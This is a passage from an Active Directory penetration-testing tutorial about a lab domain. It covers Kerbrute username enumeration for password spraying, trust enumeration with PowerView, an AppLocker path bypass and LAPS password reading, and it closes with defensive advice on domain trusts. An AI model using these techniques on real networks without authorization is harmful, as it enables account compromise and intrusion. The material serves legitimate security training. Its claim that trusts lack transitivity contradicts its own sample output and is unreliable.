We can see from the output above that we have a potential host running an outdated operating system ( Windows 7, 8, or Server 2008 based on the output). This is of interest to us, since it means that there are legacy operating systems running in this AD environment. It also means there is potential for older exploits like EternalBlue, MS08-067, and others to work and provide us with a SYSTEM level shell. As strange as it sounds to have hosts running legacy software or end-of-life operating systems, it is still common in large enterprise environments. You will often have some process or equipment, such as a production line or HVAC built on the older OS and that has been in place for a long time. Taking equipment like that offline is costly and can hurt an organization, so legacy hosts are often left in place. They will likely try to build a hard outer shell of firewalls, IDS/IPS, and other monitoring and protection solutions around those systems. If you can find your way into one, it is a big deal and can be a quick and easy way to get there. However, before exploiting legacy systems, we should alert our client and get their approval in writing in case an attack results in system instability or brings a service or host down. They may prefer that we simply observe, report, and move on without actively exploiting the system.

The results of these scans will guide us into where we will start looking for potential domain enumeration avenues, not just host scanning. We need to find our way to a domain user account. Looking at our results, we found several servers that host domain services ( DC01, MX01, WS01, etc.). Now that we know what services are running and what exist, we can poll those servers and attempt to enumerate users. Be sure to use the \verb|-oA| flag as a best practice when performing Nmap scans. This will ensure that we have our scan results in several formats for logging purposes and formats that can be manipulated and fed into other tools.

We need to be aware of what scans we run and how they work. Some of the Nmap scripted scans run active vulnerability checks against a host that could cause system instability or take it offline, causing issues for the customer, or worse. For example, running a large discovery scan against a network with devices such as sensors or logic controllers could potentially overload them and disrupt the customer's industrial equipment, causing a loss of product or capability. Take the time to understand the scans you use before running them in a customer environment.

We will most likely return to these results later for further enumeration, so don’t forget about them. We need to find our way to a domain user account or \verb|SYSTEM| level access on a domain-joined host so that we can gain a foothold and start the real fun. Let us dive into finding a user account.

\subsection{Identifying Users}

If our client does not provide us with a user to start testing with (which is often the case), we will need to find a way to establish a foothold in the domain by either obtaining clear text credentials or an NTLM password hash for a user, a SYSTEM shell on a domain-joined host, or a shell in the context of a domain user account. Obtaining a valid user with credentials is critical in the early stages of an internal penetration test. This access (even at the lowest level) opens up many opportunities to perform enumeration and even attacks. Let’s look at one way we can start gathering a list of valid users in a domain to use later in our assessment.

\subsubsection{Kerbrute – Internal AD Username Enumeration}

\href{https://github.com/ropnop/kerbrute}{Kerbrute} can be a stealthier option for domain account enumeration. It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts. We will use Kerbrute in conjunction with the \verb|jsmith.txt| or \verb|jsmith2.txt| user lists from \href{https://github.com/insidetrust/statistically-likely-usernames}{Insidetrust}. This repository contains many different user lists that can be extremely useful when attempting to enumerate users when starting from an unauthenticated perspective. We can point Kerbrute at the DC we found earlier and feed it a wordlist. The tool is quick, and we will be provided with results letting us know if the accounts found are valid or not, which is a great starting point for launching attacks such as password spraying, which we will cover in-depth later in this chapter.

To get started with Kerbrute, we can download \href{https://github.com/ropnop/kerbrute/releases/latest}{precompiled binaries} for the tool for testing from Linux, Windows, and Mac, or we can compile it ourselves. This is generally the best practice for any tool we introduce into a client environment. To compile the binaries to use on the system of our choosing, we first clone the repo:

\paragraph{Cloning Kerbrute GitHub Repo}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} sudo git clone https://github.com/ropnop/kerbrute.git Cloning into 'kerbrute'... remote: Enumerating objects: 845, done. remote: Counting objects: 100% (47/47), done. remote: Compressing objects: 100% (36/36), done. remote: Total 845 (delta 18), reused 28 (delta 10), pack-reused 798 Receiving objects: 100% (845/845), 419.70 KiB | 2.72 MiB/s, done. Resolving deltas: 100% (371/371), done. 
\end{verbatim}

Typing \verb|make help| will show us the compiling options available.

\paragraph{Listing Compiling Options}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} make help help: Show this help. windows: Make Windows x86 and x64 Binaries linux: Make Linux x86 and x64 Binaries mac: Make Darwin (Mac) x86 and x64 Binaries clean: Delete any binaries all: Make Windows, Linux and Mac x86/x64 Binaries 
\end{verbatim}

We can choose to compile just one binary or type \verb|make all| and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).

\paragraph{Compiling for Multiple Platforms and Architectures}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} sudo make all go: downloading github.com/spf13/cobra v1.1.1 go: downloading github.com/op/go-logging v0.0.0-20160315200505-970db520ece7 go: downloading github.com/ropnop/gokrb5/v8 v8.0.0-20201111231119-729746023c02 go: downloading github.com/spf13/pflag v1.0.5 go: downloading github.com/jcmturner/gofork v1.0.0 go: downloading github.com/hashicorp/go-uuid v1.0.2 go: downloading golang.org/x/crypto v0.0.0-20201016220609-9e8e0b390897 go: downloading github.com/jcmturner/rpc/v2 v2.0.2 go: downloading github.com/jcmturner/dnsutils/v2 v2.0.0 go: downloading github.com/jcmturner/aescts/v2 v2.0.0 go: downloading golang.org/x/net v0.0.0-20200114155413-6afb5195e5aa cd /tmp/kerbrute rm -f kerbrute kerbrute.exe kerbrute kerbrute.exe kerbrute.test kerbrute.test.exe kerbrute.test kerbrute.test.exe main main.exe rm -f /root/go/bin/kerbrute Done. Building for windows amd64.. <SNIP> 
\end{verbatim}

The newly created \verb|dist| directory will contain our compiled binaries.

\paragraph{Listing the Compiled Binaries in dist}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} ls dist/ kerbrute_darwin_amd64 kerbrute_linux_386 kerbrute_linux_amd64 kerbrute_windows_386.exe kerbrute_windows_amd64.exe 
\end{verbatim}

We can then test out the binary to make sure it works properly. We will be using the x64 version on the supplied Parrot Linux attack host in the target environment.

\paragraph{Testing the kerbrute\_linux\_amd64 Binary}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} ./kerbrute_linux_amd64 __ __ __ / /_____ _____/ /_ _______ __/ /____ / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \ / ,< / __/ / / /_/ / / / /_/ / /_/ __/ /_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/ Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers. Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts Usage: kerbrute [command] <SNIP> 
\end{verbatim}

We can add the tool to our PATH to make it easily accessible from anywhere on the host.

\paragraph{Adding the Tool to our Path}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} echo $PATH /home/htb-student/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/snap/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/htb-student/.dotnet/tools 
\end{verbatim}

\paragraph{Moving the Binary}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute 
\end{verbatim}

We can now type \verb|kerbrute| from any location on the system and will be able to access the tool. Feel free to follow along on your system and practice the above steps. Now let’s run through an example of using the tool to gather an initial username list.

\paragraph{Enumerating Users with Kerbrute}

Initial Enumeration of the Domain

\begin{verbatim}
Michael Mancuso@htb[/htb]\textbf{$} kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users 2021/11/17 23:01:46 > Using KDC(s): 2021/11/17 23:01:46 > 172.16.5.5:88 2021/11/17 23:01:46 > [+] VALID USERNAME: jjones@INLANEFREIGHT.LOCAL 2021/11/17 23:01:46 > [+] VALID USERNAME: sbrown@INLANEFREIGHT.LOCAL 2021/11/17 23:01:46 > [+] VALID USERNAME: tjohnson@INLANEFREIGHT.LOCAL 2021/11/17 23:01:50 > [+] VALID USERNAME: evalentin@INLANEFREIGHT.LOCAL <SNIP> 2021/11/17 23:01:51 > [+] VALID USERNAME: sgage@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: jshay@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: jhermann@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: whouse@INLANEFREIGHT.LOCAL 2021/11/17 23:01:51 > [+] VALID USERNAME: emercer@INLANEFREIGHT.LOCAL 2021/11/17 23:01:52 > [+] VALID USERNAME: wshepherd@INLANEFREIGHT.LOCAL 2021/11/17 23:01:56 > Done! Tested 48705 usernames (56 valid) in 9.940 seconds 
\end{verbatim}

We can see from our output that we validated 56 users in the INLANEFREIGHT.LOCAL domain, and it took only a few seconds to do so. Now we can take these results and build a list for use in targeted password spraying attacks.

\subsection{Identifying Potential Vulnerabilities}

The \href{https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account}{local system} account \verb|NT AUTHORITY\SYSTEM| is a built-in account on Windows operating systems. It has the highest level of access on the OS and is used to run most Windows services. It is also very common for third-party services to run in the context of this account by default. A \verb|SYSTEM| account on a \verb|domain-joined| host will be able to enumerate Active Directory by impersonating the computer account, which is essentially just another kind of user account. Having SYSTEM-level access within a domain environment is nearly equivalent to having a domain user account.

There are several ways to gain SYSTEM-level access on a host, including but not limited to:

\begin{itemize}
    \item Remote Windows exploits such as MS08-067, EternalBlue, or BlueKeep.
    \item Abusing a service running in the context of the \verb|SYSTEM account|, or abusing the service account \verb|SeImpersonate| privileges using \href{https://github.com/ohpe/juicy-potato}{Juicy Potato}. This type of attack is possible on older Windows OS but not always possible with Windows Server 2019.
    \item Local privilege escalation flaws in Windows operating systems, such as the Windows 10 Task Scheduler 0-day.
    \item Gaining admin access on a domain-joined host with a local account and using Psexec to launch a SYSTEM cmd window
\end{itemize}
By gaining SYSTEM-level access on a domain-joined host, you will be able to perform actions such as but not limited to:

\begin{itemize}
    \item Enumerate the domain using built-in tools or offensive tools such as BloodHound and PowerView.
    \item Perform Kerberoasting / ASREPRoasting attacks within the same domain.
    \item Run tools such as Inveigh to gather Net-NTLMv2 hashes or perform SMB relay attacks.
    \item Perform token impersonation to hijack a privileged domain user account.
    \item Carry out ACL attacks.
\end{itemize}

\subsection{A Word Of Caution}

Keep in mind the scope and style of the test when choosing a tool to use. If you are conducting a non-evasive penetration test, with everything out in the open and the customer's staff knowing that you are there, it doesn't usually matter how much noise you make. However, during an evasive penetration test, adversarial evaluation, or red team engagement, you are trying to mimic the tools, tactics, and procedures of a potential attacker. With that in mind, \verb|stealth| is of concern. Throwing Nmap at an entire network is not exactly quiet, and many of the tools we commonly use on a penetration test will trigger alarms for an educated and prepared SOC or Blue Teamer. Always be sure to clarify the goal of your assessment with the client in writing before starting it.

\subsection{Let’s Find a User}

In the following sections, we will search for a domain user account using techniques such as LLMNR/NBT-NS poisoning and password spraying. These attacks are great ways to gain a foothold, but must be exercised with caution and an understanding of the tools and techniques. Now let's search for a user account so we can move on to the next phase of our assessment and start picking apart the domain piece by piece and searching for a multitude of misconfigurations and flaws.

 

 
\subsection{Enumerating Trusts with PowerShell}
If we land on a system with the Active Directory PowerShell module installed, we can use the \texttt{Get-ADTrust} cmdlet to enumerate trust relationships.

\begin{notebox}
\begin{verbatim}
    PS C:\Users\mindhackdiva> Import-Module ActiveDirectory PS C:\Users\mindhackdiva> Get-ADTrust filter *
\end{verbatim}
\end{notebox}

\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-ADTrust filter *
\end{minted}
\end{notebox}

Example output:
\begin{notebox}
\begin{minted}{yaml}
Direction : Bidirectional DisallowTransivity : False
DistinguishedName            : CN = logistics.ad, CN = system, DC = inlanefreight, DC = ad ForestTransitive : True
IntraForest : False
Name : logistics.ad...
Direction : Bidirectional DisallowTransivity : False
DistinguishedName            : CN=child.inlanefreight.ad,CN=System,DC=inlanefreight,DC=ad
ForestTransitive             : False
IntraForest : True
Name : child.inlanefreight.ad
\end{minted}
\end{notebox}

From this output, we can see a couple of things happening here:
\begin{itemize}
    \item There is a bidirectional (two-way) trust exists between the \texttt{INLANEFREIGHT.AD} domain and the \texttt{LOGISTICS.AD} domain.
    \begin{itemize}
        \item Because these domains are in different forests, this is a \textit{forest trust.}
    \end{itemize}
\item There is a bidirectional intra-forest trust with the child domain \texttt{CHILD.INLANEFREIGHT.AD}.
\begin{itemize}
    \item This indicates that our current position is within the \texttt{INLANEFREIGHT.AD} forest.

\end{itemize}
\end{itemize}

Understanding the relationships described here is important to understand fully, as they define potential attack pathways favorable for lateral movement and privilege escalation that we will explore in further detail in later sections.

\subsection{Enumerating Trusts with PowerView}
PowerView is an open-source tool that remains highly effective for AD enumeration. It includes several functions to discover trusts. Let us begin with the \texttt{Get-DomainTrust} command.

\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-DomainTrust
\end{minted}
\end{notebox}

\begin{notebox}
  \begin{minted}{yaml}
SourceName          : inlanefreight.ad
TargetName          : logistics.ad
TrustType           : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes     : FOREST_TRANSITIVE
TrustDirection      : Bidirectional

SourceName          : inlanefreight.ad
TargetName          : child.inlanefreight.ad
TrustType           : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes     : WITHIN_FOREST
TrustDirection      : Bidirectional
\end{minted}
\end{notebox}

This output shows the same information as \texttt{Get-ADTrust}, but in a more user-friendly format. It confirms that
\begin{itemize}
    \item We are in the \textbf{parent domain} \texttt{INLANEFREIGHT.AD}.
    \item We have a \textbf{cross-forest trust} with \texttt{LOGISTICS.AD}
    \item We have an \textbf{intra-forest trust} with the child domain \texttt{CHILD.INLANEFREIGHT.AD}.
\end{itemize}

Another useful function is the \texttt{Get-DomainTrustMapping}, which attempts to enumerate trusts for every discovered domain you successfully identify.

\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-DomainTrustMapping
\end{minted}
\end{notebox}

\section{Enumerating Security Controls}
After gaining a toehold, we could now use this access to get a feel for the defensive state of the hosts, enumerate the domain further now that our visibility is not as restricted, and, if necessary, work at :living off the land" by using tools that exist natively on hosts. It is important to understand the security controls in place in an organization, as the products in use can greatly affect the tools you use for AD enumeration, as well as exploitation and post-exploitation activities. Understanding the protections you may be up against will help inform your decisions regarding tool selection and usage, and also assist you in planning your course of action by either avoiding or modifying certain tools. Some organizations have more stringent protections than others, and some do not apply domain- or necessary enterprise-wide security controls equally throughout. There may be security policies applied to certain machines that can make enumeration efforts more difficult compared to enumerating machines that have no policies applied.

\informationbox{Note: This section is intended to showcase possible security controls in place within an Active Directory domain but does not have an interactive component. Enumerating and bypassing security controls are not part of the scope of this section, but I wanted to give and provide an overview of the possible technologies you may encounter during a security engagement.}

\subsection{Windows Defender}
Windows Defender (or Microsoft Defender) has greatly improved over the years and, by default, will block such tools as PowerView. There are ways to bypass these protections and restrictions, and these ways will be covered in other sections of the book. We can use the built-in PowerShell cmdlet \texttt{Get-MpComputerStatus} to get the current Defender status. Here, we can see that the parameter \verb|RealTimeProtectionEnabled| is set to \texttt{true}, which means that the Defender is enabled on the system.

\subsubsection{Checking the Status of Defender with \verb|Get-MpComputerStatus|}
Enumerating Security Controls
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-MpComputerStatus


AMEngineVersion                     :
1.1.17400.5
AMProductVersion                    :
4.10.14393.0
AMServiceEnabled                    : True
AMServiceVersion                    :
4.10.14393.0
Antispyware Enabled                 : True
AntispywareSignatureAge             : 1
AntispywareSignatureLastUpdated     : 7/2/2025 11:31:50 AM
AntispywareSignatureVersion         : 1.323.392.0
BehaviorMonitorEnabled              : False
ComputerID                          : 07D23A51-F83F-4651-B9ED-110FF2B83A9C
ComputerState                       : 0
FullScanAge                         : 4294967295
FullScanEndTime                     :
FullScanStartTime                   :
IoavProtectionEnabled               : False
LastFullScanSource                  : 0
LastQuickScanSource                 : 2
NISEnabled                          : False
NISEngineVersion                    : 0.0.0.0
NISSignatureAge                     : 4294967295
NISSignatureVersion                 : 0.0.0.0
OnAccessProtectionEnabled           : False
QuickScanAge                        : 0
QuickScanEndTime                    : 8/3/2025 12:50:45 AM
QuickScanStartTime                  : 8/3/2025 12:49:49 AM
RealTimeProtectionEnabled           : True
RealTimeScanDirection               : 0
PSComuterName                       :
\end{notebox}
\end{minted}
\end{notebox}

\subsection{AppLocker}
An application allowlist is a set of approved software applications or executables that are allowed to be present and executed on any system to which the allowlist applies. The goal is to protect the environment from harmful malware and unapproved software that does not align with the specific business needs of an organization. AppLocker is Microsoft's application allowlisting solution and gives system administrators control over which applications and files users are allowed to run. Provides granular control over executables, scripts, Windows installer files, DLLs, packaged apps, and packaged app installers. It is common for organizations to block \texttt{smd.exe} and \texttt{powershell.exe} and write access to certain directories, but this can all be easily bypassed. Organizations also often focus on blocking the \texttt{powershell.exe} executable, but forget about the other PowerShell executable locations such as \verb|%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe| or \texttt{PowerShell_ISE.exe}. We can see that this is the case in the AppLocker rules shown below. All Domain Users are disallowed from running the 64-bit PowerShell executable located at:
\begin{notebox}
\begin{minted}{powershell}
%SystemRoot\system32\WindoesPowerShell\v1.0\powershell.exe
\end{minted}
\end{notebox}
So, we can simply call it from other locations. Sometimes, you may run into more stringent AppLocker policies that require more creativity to bypass. These ways will be covered in later sub-sections within this section.
\subsubsection{Using \texttt{Get-AppLockerPolicy} cmdlet}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-AppLockerPolicy - Effective | select -ExpandProperty
RuleCollections

PathConditions          :{%SYSTEM32%\WINDOWSPOWERSHELL\V1.0\POWERSHELL.EXE}
PathExceptions          : {}
PublisherExceptions     : {}
HashExeceptions         : {}
Id                      : 3d57af4a-6cf8-4e5b-acfc-c2c2956061fa
Name                    : Block PowerShell
Description             : Blocks Domain Users from using PowerShell on workstations
UserofGroupSid          : S-1-5-21-2974783224-3764228556-2640795941-513
Action                  : Deny

PathConditions          : {%PROGRAMFILES%\*}
PathExceptions          : {}
PublisherExceptions     : {}
HashExceptions          : {}
Id                      : 921cc481-6e17-4653-8f75-050b80acca20
Name                    : (Default Rule) All files located in the Program Files folder
Description             : Allows members of the Everyone group to run applications that are located in the Program Files folder
UserOrGroupSid          : S-1-1-0
Action                  : Allow

PathConditions          : {%WINDIR%\*}
PathExceptions          : {}
PublisherExceptions     : {}
HashExceptions          : {}
Id                      : a61c8b2c-a319-4cd0-9690-d2177cad7b51
Name                    : (Default Rule) All files located in the Windows folder
Description             : Allows members of the Everyone group to run applications that are located in the Windows folder
UserorGroupSid          : S-1-1-0
Action                  : Allow

PathConditions          : {*}
PathExceptions          : {}
PublisherExceptions     : {}
HashExceptions          : {}
Id                      : fd686d83-a829-4351-8ff4-27c7de5755d2
Name                    : (Default Rule) All files
Description             : Allows members of the local Administrators group to run all applications
UserorGroupSid          : S-1-5-32-544
Action                  : Allow
\end{minted}
\end{notebox}

\subsection{PowerShell Constrained Language Mode}
PowerShell Constrained Language Mode locks down many of the features needed to use PowerShell effectively, such as blocking COM objects-only allowing approved.NET types, XAML-based workflows, PowerShell classes, and more. We can quickly enumerate whether we are in Full-Language Mode or Constrained-Language Mode.
\subsubsection{Enumerating Language Mode}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> $ExecutionContext.SessionState.LanguageMode

ConstrainedLanguage
\end{minted}
\end{notebox}

\subsection{LAPS}
The Microsoft Local Administrator Password Solution is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement. We can enumerate which domain users can read the LAPS password set for machines with LAPS installed and what machines do not have LAPS installed. The \textbf{LAPSToolkit} greatly facilitates this with several functions. One function is parsing \texttt{ExtendedRights} for all computers with LAPS enabled. This will show groups specifically delegated to read LAPS passwords, which are often users in protected groups. An account that has joined a computer to the domain receives \texttt{All_Extended_Rights} over that host, and this right gives the account the ability to read passwords. The enumeration may show a user account that can read the LAPS password on a host. This can help you better target specific AD users who can read LAPS passwords.
\subsubsection{Using \texttt{Find-LAPSDelegatedGroups}}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Find-LAPSDelegatedGroups
----------------------------------------------------OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANDFREIGHT\Domain Admins
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=Web servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=Web Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=SQL Servers,OU=SErvers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\LAPS Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=LOCAL INLANEFREIGHT\Domain Admins
OU=File Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}Domain Admins OU=Contractor Laptops,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}Domain Admins OU=Staff Workstations,OU=Workstations,DC=INLANEF... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\textbackslash{}Domain Admins OU=Executive Workstations,OU=Workstations,DC=INL... INLANEFREIGHT\textbackslash{}LAPS Admins OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\textbackslash{}Domain Admins OU=Mail Servers,OU=Servers,DC=INLANEFREIGHT,DC=L... INLANEFREIGHT\textbackslash{}LAPS Admins 
\end{minted}
\end{notebox}

The \texttt{Find-AdmPwdExtendedRights} checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights." Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups, so this is worth checking for.

\subsubsection{Using \texttt{Find-AdmPwdExtendedRights}}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Find-AdmPwdExtendedRights ComputerName Identity Reason ------------ -------- ------ EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}Domain Admins Delegated EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}LAPS Admins Delegated SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}Domain Admins Delegated SQL01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}LAPS Admins Delegated WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}Domain Admins Delegated WS01.INLANEFREIGHT.LOCAL INLANEFREIGHT\textbackslash{}LAPS Admins Delegated 
\end{minted}
\end{notebox}
We can use the \texttt{Get-LapsComputers} function to search for computers that have LAPS enabled when passwords expire, and even randomized passwords in plaintext if our user has access.

\subsubsection{Using \texttt{Get-LAPSComputers}}
\textbf{Enumerating Security Controls}
\begin{notebox}
\begin{minted}{powershell}
PS C:\Users\mindhackdiva> Get-LAPSComputers

ComputerName Password Expiration ------------ -------- ---------- DC01.INLANEFREIGHT.LOCAL 6DZ[+A/[]19d\$F 08/26/2020 23:29:45 EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30 SQL01.INLANEFREIGHT.LOCAL 9G\#f;p41dcAe,s 09/26/2020 00:30:09 WS01.INLANEFREIGHT.LOCAL TCaG-F)3No;l8C 09/26/2020 00:46:04 
\end{minted}
\end{notebox}

As we have seen in this section, several other helpful Active Directory enumeration techniques are available to determine what protections are in place. It is worth familiarizing yourself with all of these tools and techniques and adding them to your arsenal of options. 

\chapter{Trust with Caution-Trust Relationship Vulnerabilities + Defensive Measures}
\importantbox{Trust relationships are fundamental in establishing a secure connection between users and systems across domains. They streamline access to resources by allowing the user initially, and the trusting domain relying on this authentication for later access without re-authentication.}

Within network management, trust relationships form the primary foundation of seamless access (or nontransparent access) to resources across interconnected networks, domains, and subdomains. This section will teach defenders the details of trust relationships, shedding light on their properties, potential dangers, and offer practical tips for defenders and offenders to mitigate associated risks.
\begin{tcolorbox}
    TIR SNAPSHOT \begin{itemize}
        \item Establishing trust relationships is the choice of domain administrators. This involves adding trusted and trusting domains, configuring passwords, and confirming the trust relationship.
        \item After establishing trust between two domains, administrators in both domains can log in seamlessly on either domain.
        \item A common breach scenario unfolds when credential are cached on a trusted client. In the event of a breach, this can lead to unauthorized access, potentially wreaking havoc within the interconnected domains. That, in and of itself, is already an internal, self-inflicted attack right there as that problems from parent environments and domains always, surely but slowly, trickles down into child domains by affecting chains of interconnected networks from there on out.
        \item  There are key security considerations that are of significance in the defensive management of trust relationships between Active Directory domains: \begin{itemize}
            \item Impact of Domain Name Changes
            \item Open Connections and Trust Establishment
            \item Careful Planning and Coordination
        \end{itemize}
    \item Some key security tips for maintaining a secure trust environment include (but are not limited to)
    \begin{itemize}
        \item Strong Password Usage and Policy Enforcement
        \item Regular Updates and Patch Management Cadence
        \item Vigilant Continuous Monitoring and Auditing
    \end{itemize}
    \end{itemize}
\end{tcolorbox}

While trust relationships are necessary sufficient for network management, they, too, present inherent security risks, opening more doors, and strengthening the attacker's attack surface into your domain. Defenders and organizations need to manage and secure these relationships proactively by adopting industry-accepted best practices.

\subsection{Properties of Trust + Establishing Trust}
For cyber and network defenders, the establishment of trust relationships is the choice of many domain administrators. This involves adding trusted and trusting domains, configuring passwords, and confirming, validating, and verifying trust relationships. The trusted domain typically initiates the process, adding the trusting domain. Let us examine the three properties that comprise the establishment of trust.
\begin{enumerate}
    \item Trusts are inherently one-way, meaning that if Domain A trusts Domain B, the reciprocative trust may not be automatic.
    \item Trusts lack transitivity: trust that is established between Domains A and B, and B and C, does not imply trust between Domain A and Domain C.
    \item Setting up reciprocity trust is essential from both sides, although either side holds the capability to break the trust relationship once established.
\end{enumerate}

In addition, password management is important in trust relationships. The system automatically changes the initial password after establishing trust. Regular communication between Primary Domain Controllers (PDCs) ensures periodic password changes, occurring every 7 days. It is important to note that rebuilding a broken trust is a complex process, requiring the repetition of the entire setup.

 
\subsubsection{Post-Trust Establishment}
After the trust between the two domains is established, administrators in both domains can log into seamlessly in either domain. This interconnected access facilitates a more fluid and integrated operational environment; however, it is important to note that although the login privileges extend across domains, permissions for accessing resources in the other domain are not automatically granted.

Administrators are required to undertake a manual process to assign these permissions. In other words, the mere establishment of trust does not automatically translate to unrestricted access; administrators must actively manage and assign permissions to ensure that users within their domain can appropriately access resources in the interconnected domain. This deliberate assignment of permissions adds an additional layer of security and control, allowing administrators to tailor access rights based on specific user roles and responsibilities in the interconnected environment.

\subsubsection{Breaches}
A common breach scenario unfolds when credentials are cached on a trusted client. In the event of a breach, this can lead to unauthorized access, potentially wreaking havoc within the interconnected domains.

One of the most devastating, damaging, and crippling attacks in history happened in 2013, when Target experienced a targeted attack characterized by a breach of trust. The threat actors exploited the network credentials of a heating and ventilation company entrusted with the maintenance of a Target store. Leveraging these credentials, the threat actors seamlessly infiltrated the Target company's network, capitalizing on the same level of access provided to the third-party partner.

Another notable example involves MenuPass, a Chinese-based threat group. Between 2016 and 2017, MenuPass conducted a campaign targeting IT Managed Service Providers (MSPs), mining companies, manufacturing entities, and a university. Using credentials obtained from these organizations, the group gained unauthorized access to victim resources.

\subsubsection{Security}
There are key security considerations that are of significance in the management of trust relationships between domains.

\begin{enumerate}
    \item \textbf{Impact of Domain Name Changes}: Altering the name of a domain can disrupt trust relationships. This emphasizes the importance of stability in domain naming conventions, as changes in this aspect can potentially interfere with established trust, affecting the overall reliability and functionality of the interconnected domains.
    \item \textbf{Open Connections and Trust Establishment}: The process of establishing trust is hindered by open connections to another domain. This highlights the need for a secure and controlled environment during the establishment phase. Any open connection can introduce vulnerabilities and compromise the integrity of the trust relationship, underscoring the importance of a secure and closed communication channel between domains.
    \item \textbf{Careful Planning and Coordination}: Effective trust management requires careful planning and coordination with administrators in other domains. This emphasizes the collaborative nature of trust establishment, where domain administrators must work in tandem to ensure that the trust relationship is established securely and aligns with the overall security policies of the interconnected domains. This coordination is essential to minimize potential security risks and enhance the overall integrity of the trust relationship.
\end{enumerate}

\subsection{Active Directory Trusts}
Ensuring the security of Active Directory Trusts involves implementing critical measures to mitigate potential vulnerabilities and unauthorized access. Some key security tips for maintaining a secure trust environment include:

\begin{enumerate}
    \item \textbf{Strong Password Usage:} The foundation of trust security lies in the use of strong passwords. Developing robust password policies helps protect against unauthorized access attempts. This involves enforcing complex password requirements, such as a combination of uppercase and lowercase letters, numbers, and special characters. Regularly updating and rotating passwords further enhances the resilience of trust relationships.
    \item \textbf{Regular Updates:} Keeping all systems and components up-to-date is a key to security. This includes quickly applying patches, updates, and security fixes. Regular update of operating systems, Active Directory servers, and associated software ensures that potential vulnerabilities are addressed, reducing the risk of exploitation by malicious actors seeking to compromise trust relationships.
    \item \textbf{Implementation of Two-Factor Authentication (2FA}\textbf{):} Adding an additional layer of authentication through 2FA significantly enhances trust security. By requiring users to provide two forms of identification, typically a password and a secondary authentication method (such as a code sent to a mobile device), the risk of unauthorized access is significantly reduced. This additional verification step adds a safeguard against potential breaches.
